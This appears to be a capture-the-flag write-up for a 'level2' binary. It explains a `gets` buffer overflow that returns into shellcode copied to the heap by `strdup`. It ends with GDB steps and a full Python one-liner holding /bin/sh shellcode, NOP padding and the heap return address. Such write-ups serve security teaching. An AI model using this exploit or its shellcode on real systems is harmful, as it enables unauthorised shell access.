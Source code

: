 # LEVEL 2

## 💡 Explanation

In this level we have to:
1. Having a look to the main we can easily check that it calls directly to the function `p` and just returns, so the exploit should be in the function `p`.
2. Looking at `p` we find first a call to the funciton `flush`; which is used to clear the output buffer and move the buffered data to console (in case of stdout) or disk (in case of file output stream). Not very interesting...
3. Now we see that the function calls to the function `gets` which is pretty exploitable.
4. Then, it does a weird check to make sure that in case we have rewritten the eip it is not an addess on the stack (since thos e addeses start by 0xb)...
5. Since there is a call to `strdump` on the function, we can use it to put our exploit on the heap and then we will have to prepare the stack to return the address to the shellcode, so the program will execute it. Also! We should check where does strdump writes on the heap; turns out it is always the same address: `0x0804a008`.
6. About how to prepare the stack to call the shellcode: the LEAVE instruction is actually MOV ESP, EBP and POP EBP; and the RET is equal to a POP EIP. So this will clear from the stack all the references to our function `p` and it should leave on the top of the stack the next instruction after the return value. What we are going to do is to put to the 4 bytes after EBP the address to the code on the heap that we want to execute; therefore when executing the instruction LEAVE it'll have on the top of the stack the given adress.
7. To build the exploit what we  introduce a shellcode in the buffer and then put the its address right after EBP, as we just explained. To do so, we have to calculate when the buffer starts (0xbffff6cc) and see how many bytes we have to fill until the end of EBP (0xbffff71c - 0xbffff6cc) which is 80. Taking into account that our shellcode is 45 bytes, that makes that we have to fill an extra 35 bytes with NOPs. The ouput is: [SHELLCODE][35 NOPs until filling up to EBP][Adress where strdump writes]


## 👾 Commands

To find the solution:
```
[GDB] disas main
[GDB] disas p
[GDB] b *0x0804853d
[GDB] run (test with and without buffer overflow!)
[GDB] aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa11111111111111111111111111111111111!!!!
[GDB] step 1

```

To execute the solution there are two options:
- `(python -c 'print "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90"*35 + "\x08\xa0\x04\x08"' ; cat -) | ./level2`

## 🔍 Resources

- [Use of fflush(stdin) in C](https://www.geeksforgeeks.org/use-fflushstdin-c/)
- [Buffer Overflow](https://beta.hackndo.com/buffer-overflow/)
